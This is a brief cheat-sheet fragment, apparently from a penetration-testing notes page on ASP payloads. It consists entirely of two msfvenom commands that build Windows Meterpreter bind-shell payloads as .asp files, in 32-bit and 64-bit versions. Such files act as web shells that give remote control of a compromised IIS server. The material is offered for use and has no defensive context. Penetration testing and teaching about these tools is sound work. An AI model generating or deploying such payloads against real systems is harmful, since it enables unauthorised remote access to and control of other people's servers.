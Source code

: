 # ASP

- x86 (32-bit) Payloads

`$ msfvenom -p windows/meterpreter/bind_tcp lport=<PORT> -f asp -o met-x86.asp`

- x86-64 (64-bit) Payloads

`$ msfvenom -p windows/x64/meterpreter/bind_tcp lport=<PORT> -f asp -o met-x64.asp`